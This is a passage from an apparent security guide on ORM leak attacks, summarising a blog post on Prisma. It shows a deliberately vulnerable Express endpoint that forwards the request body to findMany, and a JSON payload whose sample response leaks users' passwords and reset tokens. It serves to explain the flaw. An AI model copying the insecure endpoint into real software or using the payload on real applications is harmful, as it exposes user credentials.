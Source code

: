From te same post regarding this vector:

* **SQLite**: Doesn't have a regexp operator by default (require loading a third-party extension)
* **PostgreSQL**: Doesn't have a default regex timeout and it's less prone to backtracking
* **MariaDB**: Doesn't have a regex timeout

## Prisma ORM (NodeJS)

The following are [**tricks extracted from this post**](https://www.elttam.com/blog/plorming-your-primsa-orm/).

* **Full find contro**l:

<pre class="language-javascript"><code class="lang-javascript">const app = express();

app.use(express.json());

app.post('/articles/verybad', async (req, res) => {
    try {
        // Attacker has full control of all prisma options
<strong>        const posts = await prisma.article.findMany(req.body.filter)
</strong>        res.json(posts);
    } catch (error) {
        res.json([]);
    }
});
</code></pre>

It's possible to see that the whole javascript body is passed to prisma to perform queries.

In the example from the original post, this would check all the posts createdBy someone (each post is created by someone) returning also the user info of that someone (username, password...)

```json
{
    "filter": {
        "include": {
            "createdBy": true
        }
    }
}

// Response
[
    {
        "id": 1,
        "title": "Buy Our Essential Oils",
        "body": "They are very healthy to drink",
        "published": true,
        "createdById": 1,
        "createdBy": {
            "email": "karen@example.com",
            "id": 1,
            "isAdmin": false,
            "name": "karen",
            "password": "super secret passphrase",
            "resetToken": "2eed5e80da4b7491"
        }
    },
    ...
]
```
